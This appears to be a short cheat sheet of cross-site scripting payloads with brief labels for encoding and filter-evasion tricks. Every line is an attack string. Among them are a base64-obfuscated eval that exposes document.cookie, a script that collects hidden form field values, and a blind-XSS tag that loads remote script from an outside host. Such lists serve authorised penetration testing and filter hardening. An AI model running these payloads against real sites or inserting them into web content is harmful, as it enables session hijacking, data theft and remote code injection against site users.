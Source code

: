 ```%u003Cscript%u003Eprompt%u0028303%u0029%u003C/script%u003E```        For ASP Encoding

```%253Cscript%253Ealert(1)%253C%252Fscript%253E````                                       double url enc

```<![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>```    XML Reflectionxss

```"onauxclick=alert(1);//```

```javascript://%250aalert(1)```									  where :// is required after protocol

```"\"><s>test"@gmail.com```												   XSS in email id
  
```javascript:eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));```

<script>eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));</script>
<imG/sRc=l oNerrOr=(prompt)() x>
"><script src=https://a007.xss.ht></script>											Blind 
<body onpageshow=alert(1)>
<style onload=alert(1)>
<marquee behavior="alternate" onstart=alert(1)>hack the planet</marquee>
<d3"<"/onclick="1>[confirm``]"<">z
&lt;script&gt;confirm(1)&lt;/script&gt;                                              HTML Encoding
“=””’></><script></script><svg onload=alert(1)>
<script>var xss = '';f=document.forms;for(i=0;i<f.length;i++){e=f[i].elements;for(n in e){if(e[n].type=='hidden'){alert(e[n].name+': '+e[n].value)}}};//'';</script>    GET Hidden Fields
<table><thead style=font-size:100px onmouseover=prompt(1)><td>XSS
<svg/x=">"/onload=confirm()//
<sCript x>(((confirm)))``</scRipt x>
